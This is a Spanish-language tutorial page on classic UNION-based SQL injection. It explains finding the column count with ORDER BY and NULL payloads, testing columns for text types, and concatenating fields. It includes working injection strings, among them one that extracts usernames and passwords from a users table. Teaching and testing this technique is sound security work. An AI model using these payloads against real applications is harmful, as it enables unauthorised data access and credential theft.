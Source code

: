 ```yaml
---
layout: default
title: 3. Inyecciones clásicas con datos visibles
permalink: /injection_types/classic
nav_order: 5
---
```


# Inyecciones clásicas con datos visibles

Existen muchas variantes donde afectar en un punto de inyección cambia los resultados, por ejemplo en un **nombre de columna o las condiciones** de la cláusula `WHERE`. Esto extrae datos no previstos por la aplicación dentro de la tabla de la consulta original.

Sin embargo, cuando se quiere obtener información en masa y de otras partes de la base de datos hay técnicas efectivas que se adaptan. La predominante se da con ataques de `UNION`.

## Introducción a ataques UNION

La palabra `UNION` permite ejecutar más de una consulta `SELECT` y ubicar el resultado de una después de la otra, en el orden que se hayan escrito. En el siguiente ejemplo genérico:

```sql
SELECT a, b FROM tabla1 UNION SELECT c, d FROM tabla2
```

Si `tabla1` es:

| a | b |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |

Y `tabla2` es:

| c | d |
| :-: | :-: |
| 333 | yyy |

La consulta retorna el conjunto:

| col1 | col2 |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |
| 333 | yyy |

Para que una consulta `UNION` funcione, las **dos condiciones que tienen que cumplirse son**:
1. El **número de columnas** de todas las uniones coincide.
2. Los **tipos de datos** de cada columna deben ser compatibles en la misma posición resultante.

Determinar el número de columnas y tipos de datos de cada una en la consulta SQL original es vital.

## Determinar número de columnas

### ORDER BY

Hay dos formas básicas de determinar el número de columnas de la consulta original. La primera es abusar de la cláusula `ORDER BY`. Si bien lo común es escribir el nombre de la columna por la cual ordenar, también se permite elegir un número de posición o índice. Por ejemplo, asumiendo la siguiente consulta vulnerable:

```sql
SELECT a, b FROM tabla1 WHERE b = 'INYECTABLE AQUÍ'
```

El *payload* `' ORDER BY 1--` se reflejaría así:

```sql
SELECT a, b FROM tabla1 WHERE b = 'XYZ' ORDER BY 1--'
```

La consulta no tiene errores de sintaxis. Así se puede continuar con el número 2, 3, etc. hasta que eventualmente surja un error por pasarse del índice máximo, como:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

Las reacciones de la aplicación pueden ser varias, pero deben indicar un cambio de comportamiento debido a un error. Luego de esto se puede escribir el `UNION` con la cantidad de columnas exactas.

### Valores NULL

La segunda forma es inyectar el `UNION` comenzando por una sola columna, con el valor `NULL`, e incrementar las columnas nulas hasta que ya no se detecten errores:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Un ejemplo de error podría ser:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

Esto funciona porque `NULL` es convertible a cualquier tipo de dato común. A tener en cuenta: en los DBMS populares esa sintaxis es viable, pero en el caso de Oracle se necesita referir a una tabla que viene con ese DBMS llamada `DUAL`:

```
' UNION SELECT NULL FROM DUAL--
```

## Determinar columnas con tipo de dato útil

El objetivo de SQLi con `UNION` es obtener datos, por lo general va a interesar que sean de tipo texto o *string*. Identificar la mayor cantidad de columnas de texto da flexibilidad para extraer y procesar los resultados. Sabiendo ya el número de columnas exactas, solo es necesario **probar con cualquier texto literal fijo** en cada columna y ver cuáles combinaciones arrojan error, por ejemplo:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Si el tipo de dato no es compatible hay chances de que se genere un error como:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

Esto es análogo para otros tipos de dato si fuera necesario aplicarlo.

## Acumular en una columna

¿Qué sucede si se necesita más de una columna para los datos que se intentan extraer pero la consulta no tiene suficientes columnas de ese tipo?

Suponiendo un escenario donde el `UNION` admite **una sola columna** de tipo texto, pero como atacante se quieren obtener al menos dos columnas, se pueden aplicar operaciones de concatenación (u otras transformaciones) **sobre una única columna**. El siguiente es un ejemplo en Oracle para concatenar las credenciales de un usuario:

```
' UNION SELECT username || '~' || password FROM users--
```

Esto devuelve **una columna** con el valor de dos, separando con el caracter `~` para distinguir comienzo y fin. El operador `||` es la concatenación. Como referencia de operadores válidos (puede diferir en versiones):

| Oracle, PostgreSQL | `'foo'||'bar'` |
| SQL Server | `'foo'+'bar'` |
| MySQL | `'foo' 'bar'` [Con espacio] <br> `CONCAT('foo','bar')` |